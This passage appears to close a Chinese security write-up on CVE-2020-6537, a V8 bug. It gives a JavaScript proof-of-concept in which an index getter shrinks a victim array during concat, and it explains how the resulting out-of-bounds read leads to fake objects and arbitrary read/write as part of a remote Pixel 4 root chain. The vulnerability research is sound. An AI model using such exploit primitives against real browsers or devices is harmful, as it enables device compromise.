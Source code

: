 ```
var arr; 
var victim_arr = new Array(0x200);
Object.defineProperty(arr, 0, {
  get : () => {
    print("=== getter called ===");
    victim_arr.length = 0x10;   
    gc();
    return 1;
  }
});

arr.concat(victim_arr);

```

通过上述方案，我们将原本的类型混淆，转换成了另一处越界读问题。利用越界读，我们就拥有了 fake obj 的能力，进而也可以轻松实现任意地址读写了。

Conclusion
----------

本文对 CVE-2020-6537 的成因进行了分析，并介绍了两种利用思路。这个漏洞是我们远程 ROOT Pixel 4 利用链中的一环，在后面的系列文章中，我们将会对利用链中的提权漏洞进行详细介绍。